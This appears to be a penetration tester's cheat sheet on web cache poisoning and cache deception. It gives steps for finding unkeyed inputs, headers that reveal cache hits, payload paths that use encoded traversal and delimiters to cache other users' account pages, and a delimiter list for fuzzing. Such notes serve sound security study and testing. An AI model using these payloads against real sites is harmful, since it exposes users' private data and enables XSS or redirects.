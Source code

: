 [#](#) Web Cache Poisoning

Get the cached key

    Pragma: x-get-cache-key
 
1. Find a point of injection that is reflected in the response (get param, header, cookie)
2. Confirm that this "point of injection" is not part of the cached keys.
4. Create a payload (xss, redirect, etc...)
    - string from a GET params or cookie (-> escape the string and XSS)
    - host from x-headers-type (-> redirect to exploit server)

### Detecting Cache Response:

* X-Cache
    * X-Cache: miss -> missed the cache (request sent to web server directly)
    * X-Cache: hit  -> hit the cached (not the web server)
    * X-Cache: dynamic -> origin server dynamically generated the content. Generally this means the response is not suitable for caching
    * X-Cache: refresh -> content was outadated

* Cache-Control:
    * Cache-Control: public -> suggests that the resource is cacheable, but cache might overide this header

* Response time might also indicate caching

### Param Miner:

- Guess query params: some query params are excluded from cached key
- Guess everything!

### Payloads Cache Poisoning (OPTIONS, HEAD, GET)

* Pragma: x-get-cache-key
* /?cb=AAAA&utm_content=BBBBB
* /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=arbitraryFunction

### Payloads Cache Deception (OPTIONS, HEAD, GET)

1. /profile
2. /profileAAAA
3. /profile;AAAA
4. /profile;AAAA.css
5. X-Cache: miss

1. /AAAA/..%2fmy-account
2. Find folder that are cached (/resources, /assets, /static)
3. /resources/..%2fmy-account
4. X-Cache: miss

1. /my-account%23AAAA
2. /AAAA/..%2fmy-account
3. Find folder that are cached (/resources, /assets, /static)
4. /AAAA/..%2fresources/labs.css
5. 404 Cache: Miss
6. /resources/..%2fLabs.css
7. 404 (no cache -> cache decode ..%2f)
8. /my-account%23%2f%2e%2e%2fresources (%23 is used for delimiter)

Web Cache Delimiter List: 

`(turn off intruder encoding)`

`(browsers URL-encode characters like {, }, <, and >, and use # to truncate the path. If the cache or origin server decodes these characters)`


```
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
%00
%0A
%09
```
